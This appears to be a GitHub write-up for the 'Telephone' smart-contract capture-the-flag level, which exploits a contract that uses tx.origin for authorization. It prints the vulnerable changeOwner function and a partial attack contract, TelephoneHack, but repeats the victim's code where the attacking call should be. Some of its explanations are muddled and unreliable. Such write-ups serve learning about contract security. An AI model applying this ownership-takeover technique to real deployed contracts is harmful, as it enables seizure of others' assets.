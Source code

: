 # Telephone challenge - Level 4  🚧 Update In Progress 🏗

<p align="left"> <img src="https://komarev.com/ghpvc/?username=Level4&label=Repository%20views&color=0e75b6&style=flat" alt="wrappedusername" /> </p>

```yml
This smart contract has a vulnerability, it's use of tx.origin as authorization is a vulnerability because:
```
- if msg.sender is not tx.origin address _owner will equal owner.

```Solidity
/** 
* @notice function changeOwner() uses tx.origin to change ownership 
* to whatever address calls this function just as long as it is not the 
* address that started the original transaction that created this contract 
*/
function changeOwner(address _owner) public {
  if (tx.origin != msg.sender) {
    owner = _owner;
  }
}
```

## 💥 The attack contract in detail

```yml 
The attack contract starts with importing the victim contract:
```
- this will be used in the attack contract's constructor,

```Solidity
// SPDX-License-Identifier: MIT
// fixed pragma
pragma solidity 0.6.0;

import "./Telephone.sol";

/// @title attack contract, assumes ownership
/// @author Web3 Blockchain Developer
contract TelephoneHack {
```

- the constructor receives the victim contract address from the player and references the victim contract with Telephone(_address), this address is assigned as the state variable telContract,

```Solidity
/// @notice state variable assigned in constructor
Telephone telContract;

/** 
* @notice victim address belonging to Telephone contract assigned as
* state variable telContract during deployment of attack contract 
*/
    constructor(address _address) public {
        telContract = Telephone(_address);
    }
```
- finally the attack begins,
- if msg.sender is not tx.origin address _owner will equal owner,
  - the player calls the changeOwner function to assume ownership and win.

```Solidity
/** 
* @notice function changeOwner() uses tx.origin to change ownership 
* to whatever address calls this function just as long as it is not the 
* address that started the original transaction that created this contract 
*/
function changeOwner(address _owner) public {
  if (tx.origin != msg.sender) {
    owner = _owner;
  }
}
```

## 💥 The attack contract locked and loaded in REMIX IDE

```yml
Click hackContract button to initiate the attack:
```

- lower left of the image, under the Deployed Contracts section 

<p align="left" >
<img width="512" height="512" src="https://user-images.githubusercontent.com/104662990/199756044-16a699f2-5111-4dfe-a25f-fac81cd4b1ab.png">
</P>
